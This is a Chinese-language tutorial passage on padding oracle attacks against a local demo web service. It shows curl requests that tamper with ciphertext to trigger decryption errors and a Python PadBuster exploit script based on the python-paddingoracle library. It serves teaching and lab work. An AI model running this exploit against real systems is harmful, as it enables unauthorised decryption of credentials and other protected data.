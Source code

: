解密测试：

```
curl http://127.0.0.1:5000/echo?cipher=484b850123a04baf15df9be14e87369bd692263a07c6390ba29097b2e57aadc3c4ece78807a0bd1ee02b447f9345c126
decrypted: ApplicationUsername=PegasusX&Password=test
```

修改最后一个块数据，检验是否存在PaddingOracle漏洞

```
 curl http://127.0.0.1:5000/echo?cipher=484b850123a04baf15df9be14e87369bd692263a07c6390ba29097b2e57aadc3c4ece78807a0bd1ee02b447f9345c127
decryption error
```

可以看到此时，会回显错误数据。

> 为什么要修改最后一个块，而不是第一个块呢？这是因为PaddingOracle的问题在于Padding，而Padding仅在最后一个块进行Padding。如果修改的不是最后一个块，只会让数据损坏，而不是抛出解密异常。

```Bash
curl http://127.0.0.1:5000/echo?cipher=184b850123a04baf15df9be14e87369bd692263a07c6390ba29097b2e57aadc3c4ece78807a0bd1ee02b447f9345c126
decrypted: kq?R?H???%r????1me=PegasusX&Password=test
```

接下来，我们可以依据逻辑编写如下脚本：

```python
#!/usr/bin/env python 
"""Exploits a Padding Oracle vulnerability in an example web application.

Exploits a Padding Oracle vulnerability in an example web application (simple
scenario). It uses the python-paddingoracle library. Simple pattern matching is
performed to detect padding errors.
"""

from paddingoracle import BadPaddingException, PaddingOracle
import requests
import binascii
import logging

__author__ = "Georg Chalupar"
__email__ = "gchalupar@gdssecurity.com"
__copyright__ = "Copyright 2015, Gotham Digital Science Ltd"

class PadBuster(PaddingOracle):
    def __init__(self, **kwargs):
        super(PadBuster, self).__init__(**kwargs)
        self.session = requests.Session()

    def oracle(self, data, **kwargs):
        """Sends data to web applicaiton and detects padding exception by
        checking for 'decryption error' in the responses"""
        # send HTTP request and receive response
        response = self.session.get('http://127.0.0.1:5000/echo',
            params={'cipher': binascii.hexlify(data)}, timeout=5, verify=False)
        
        # check for error message in response and throw BadPaddingException if it maches
        if 'decryption error' in response.text:
            raise BadPaddingException
        
        logging.debug('No padding exception raised on {}'.format(binascii.hexlify(data)))


if __name__ == '__main__':
    # enable debug logging and create padbuster instance
    logging.basicConfig(level=logging.DEBUG)
```
